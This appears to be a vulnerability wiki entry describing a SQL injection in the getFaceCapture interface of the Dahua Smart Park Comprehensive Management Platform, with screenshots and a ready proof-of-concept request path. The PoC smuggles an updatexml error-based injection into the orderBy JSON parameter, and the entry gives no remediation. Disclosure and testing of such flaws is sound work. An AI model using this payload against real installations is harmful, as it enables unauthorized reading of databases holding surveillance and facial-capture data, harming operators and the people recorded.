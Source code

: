 # Dahua Smart Park Comprehensive Management Platform getFaceCapture SQL Injection Vulnerability

## Vulnerability Description

Dahua Smart Park Comprehensive Management Platform GetFaceCapture interface has SQL injection vulnerability. The attacker can execute any SQL statement through the vulnerability to obtain database sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Smart Park Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163925217.png)



Request a POC

```php
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691823619224-89ff3b9c-ee7b-4051-abdf-bdb259873043.png)